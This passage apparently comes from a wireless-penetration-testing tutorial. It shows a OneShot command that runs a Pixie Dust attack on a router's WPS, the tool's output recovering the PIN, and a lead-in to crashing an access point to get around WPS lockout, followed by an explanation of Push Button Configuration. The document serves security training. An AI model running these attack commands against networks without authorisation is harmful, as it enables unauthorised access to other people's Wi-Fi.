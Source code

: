 Similar to Reaver, OneShot also includes the `-K` (or `--pixie-dust`) argument. Let's apply this option and initiate the attack.

```shell
python3 /opt/OneShot/oneshot.py -b 86:FC:9F:5D:67:4E -i wlan0mon -K

[*] Running wpa_supplicant¦
[*] Running wpa_supplicant¦
[*] Trying PIN '61212947'¦
[*] Scanning¦
<SNIP>
 [*] Seed N1:  0xb9d0ec1c
 [*] Seed ES1: 0x00000000
 [*] Seed ES2: 0x00000000
 [*] PSK1:     f83b96cd8204b73edf202c13232907f8
 [*] PSK2:     f67582674650eb5e9a84c42b9a078fcd
 [*] ES1:      00000000000000000000000000000000
 [*] ES2:      00000000000000000000000000000000
 [+] WPS pin:  32552273

 [*] Time taken: 0 s 27 ms

```

Based on the output, it is evident that OneShot was successful, recovering the PIN by way of Pixie Dust attack.

In the next section, we will explore ways to potentially crash a target access point, thereby enabling us to bypass the WPS lock and continue our PIN cracking efforts.


# Push Button Configuration

* * *

`Push Button Configuration (PBC)` is a simple and user-friendly method for connecting devices to a wireless network using Wi-Fi Protected Setup (WPS). It’s particularly useful for users who want to avoid entering complex passwords. PBC is a feature of WPS that allows users to connect devices to a Wi-Fi network by simply pressing a physical button on the router/AP and the connecting device, instead of entering a password.

* * *

#### How Does PBC Work?

- `Physical Button Press`: Most routers and access points have a WPS button that triggers PBC.

- `Automatic Pairing`: After pressing the button, the router will listen for new device requests to connect for a set time (usually two minutes). During this period, any device that requests access can connect without needing a password.

- `Device Side Interaction`: The connecting device (e.g., smartphone, smart TV, etc.) typically has an option to connect via WPS. After selecting this, the device searches for routers or access points in PBC mode and establishes a connection. The connection is established without the need to enter a password manually.
